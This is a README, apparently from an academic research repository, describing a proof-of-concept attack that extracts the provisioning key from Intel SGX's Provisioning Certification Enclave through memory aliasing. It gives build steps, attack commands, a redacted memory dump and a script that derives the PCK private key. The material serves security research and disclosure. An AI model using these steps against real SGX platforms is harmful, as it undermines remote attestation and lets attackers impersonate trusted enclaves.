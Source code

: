 # Extracting the Provisioning Key from Intel's Provisioning Certification Enclave (PCE)

This folder contains an end-to-end attack to extract the provisioning key from the Provisioning Certification Enclave (PCE). The attack leverages the `simple-read` primitive to access the provisioning key.

This attack consists of three enclaves; the PCE, which is signed and distributed by Intel, and both attacker enclaves, similar to the `simple-read` PoC.


## Build

### PCE

Download the Provisioning Certification Enclave (PCE) from [Intel](https://download.01.org/intel-sgx/sgx-linux/2.24/prebuilt_ae_2.24.tar.gz). Extract the file `psw/ae/data/prebuilt/libsgx_pce.signed.so` and copy it to this directory.  
Our attacks have been verified on release 2.24. Minor modifications to `main.c` may be required for other releases.

### Linux SGX driver
First, build and install the modified out-of-tree SGX driver by applying the
patches in `../patches/`. These patches ensure the EPC
pages are allocated at physical addresses that are not affected by the
interposer, thus preventing crashes when enabling the interposer. Additionally,
they provide an interface through which EPC pages can be allocated at
chosen physical addresses.
Make sure the in-tree SGX driver is disabled by adding `nosgx` to the kernel
command line arguments.

### SGX-Step

Build and install the modified SGX-Step library. This library is used to translate virtual to physical addresses, and modify the page tables.

### Attacker enclaves

Both attacker enclaves can be build using `make all`. This will also
build the BadRAM kernel module and helper library.

```
make clean
make all
make insmod
```

## Use
  
**Step 1: Define the alias function**

First, define the alias function in the `aliases.csv` file. This file will be
used to calculate the alias pa to the victim buffer.

**Step 2: Generate a report**

Generate a report to be signed by the PCE.

```
sudo ./generate_report
```

**Step 3: Start the attack**

The attacker script will:
  1. Start the PCE and attacker read enclave, allocating their pages so they alias.
  2. Request a signature from the PCE, which will have the PCE load in the provisioning key.
  3. Interrupt the PCE while the providioning key is on the stack.
  4. Capture the ciphertext of the provisioning key through the use of the interposer.
  5. Terminate the PCE and start the second attacker enclave at the same physical address as the PCE.
  6. Replay the provisioning key ciphertext into the second attacker enclave through the use of the interposer.

```
sudo ./app <path to aliases.csv>
```

**Step 4: Extract the provisioning key**

The attack will generate a memory dump of the selected PCE pages at `./pce-dump.bin`.
The provisioning key is a 128-bit secret located 0x21 bytes below the string "PAK_KEY_DER", e.g., at address `0x7850` in the memory dump below.

**Step 5: Compute the PCK**

The provisioning key is used to derive the Provisioning Certification Key (PCK). We provide a simple Python script to derive the PCK from the provisioning key.

```
pip install -r requirements.txt
python gen_pck.py <provisioning key in hex>
```

## Expected output

Below is an example memory dump from the PCE.
Note that the provisioning key and derived outputs have been redacted in this memory dump.

```
$ hexdump -C pce-dump.bin
[...]
00007800  50 38 de 2d f8 7f 00 00  70 38 de 2d f8 7f 00 00  |P8.-....p8.-....|
00007810  80 38 de 2d f8 7f 00 00  36 5e c0 2d f8 7f 00 00  |.8.-....6^.-....|
00007820  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00007830  60 42 de 2d f8 7f 00 00  10 80 dc 2d f8 7f 00 00  |`B.-.......-....|
00007840  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00007850  ff ff ff ff ff ff ff ff  ff ff ff ff ff ff ff ff  |................|
00007860  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00007870  03 50 41 4b 5f 4b 45 59  5f 44 45 52 00 00 01 40  |.PAK_KEY_DER...@|
00007880  ff ff ff ff ff ff ff ff  ff ff ff ff ff ff ff ff  |................|
00007890  ff ff ff ff ff ff ff ff  ff ff ff ff ff ff ff ff  |................|
000078a0  ff ff ff ff ff ff ff ff  ff ff ff ff ff ff ff ff  |................|
000078b0  ff ff ff ff ff ff ff ff  ff ff ff ff ff ff ff ff  |................|
000078c0  40 80 dc 2d f8 7f 00 00  80 39 de 2d f8 7f 00 00  |@..-.....9.-....|
000078d0  40 80 dc 2d f8 7f 00 00  00 82 dc 2d f8 7f 00 00  |@..-.......-....|
000078e0  40 42 de 2d f8 7f 00 00  cf 00 00 00 00 00 00 00  |@B.-............|
000078f0  f0 49 de 2d f8 7f 00 00  cf 44 c0 2d f8 7f 00 00  |.I.-.....D.-....|
00007900  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
```

The extracted provisioning key can be used to generate the PCK and corresponding private key.

```
$ python gen_pck.py ffffffffffffffffffffffffffffffff
pkey_seed: ffffffffffffffffffffffffffffffff
hash_drg_output:  5df2cc9e06c90a4acc102f919dbd0832ba8f3a3342eebc270a54c16e77c34a6ae71a10361ab7b80c
ECDSA Private Key: 0e2d4e870654582db10b90fac6a70d5933d96ea77b84122b0982f82b5ede5aa0
ECDSA Public Key (PCK): 0581b87ffa500f543629b0746b7df95b48d9258170a6755473e791b976a8714ac40eee351d1e41f2c62bd3267972fed4a644ae0025e823a43e2ed5b110ea2c69
```
